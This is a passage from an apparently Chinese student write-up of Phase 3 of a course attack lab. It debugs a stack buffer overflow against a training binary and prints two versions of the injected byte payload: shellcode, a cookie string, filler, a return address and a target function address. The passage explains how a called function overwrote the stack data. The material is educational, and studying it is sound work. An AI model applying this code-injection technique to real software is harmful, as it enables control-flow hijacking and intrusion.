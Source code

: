 提交，发现不对

> ?

回头思考，`8` 位的 `cookie` 应该是 `8` 字节长，但却只用了 `4` 字节。原来是应该把数字用 `ascii` 码转化为字符形式作为输入，错误的直接用数字本身输入了。

使用命令 `man ascii` 查看 `ascii` 码表，将其对应得放入输入串中即可。

```c
buf[40] = { /* Phase 3 ver.2 */
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```

提交仍然报错，而且这次的报错信息（`Misfire` 后括号中的输入函数的变量内容）和上次相同 `??aU` 。

说明和具体输入串内容无关，应该是在某处，输入串被修改为其它内容，导致后续判断不通过。

重新回看手册，发现在 `Phase 3` 部分有一个另外的函数 `hexmatch`，函数目的是检查输入的串和数字是否相符。其中函数创建了 `char cbuf[110]`，用于随机化对比串。

函数在 `touch3` 中被调用，此时 `getbuf` 中的 `buf` 数组已不在栈中，现在的 `touch3` 以及其调用的 `hexmatch`（以及可能的其他函数）都会重新申请栈空间，将原本的内容覆盖掉。

或许找到了出错的原因，`hexmatch` 等函数申请栈空间将存储在 `buf` 数组中的 `cookie` 数组覆盖掉了，导致判断不正确。

此时可以在 `hexmatch` 前后分别检查 `buf` 数组的内容，如果发生变化说明确实是这样的原因

![Phase3_pic3](./Screenshots/Phase3_pic1.png)

![Phase3_pic4](./Screenshots/Phase3_pic2.png)

可以看到，`hexmatch` 函数在执行时，`buf` 数组的内容被覆盖掉了，导致判断不正确。

所以 `cookie` 数组不能存在 `buf` 数组里。

> 如何解决？

只需要绕过会被覆盖掉的 `buf` 就好了，那就不要把 `cookie` 数组放在 `buf` 数组里。

由于输入只能向栈深处输入（事实上可以实现在栈外存数据，但较为繁琐），且不能保证 `buf` 数组中的具体安全区域（似乎 `buf` 数组的前 `8` 个字节是安全的，但没尝试，直接选择了放在数组外），因此选择向深处存放 `cookie` 数组。

向输入串结尾的两个返回地址后面继续添加，将 `cookie` 串放在返回地址后面，事实上这里不会被覆盖掉。

*图片省略*

```c
buf[40] = { /* Phase 3 ver.fin */
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
}
```
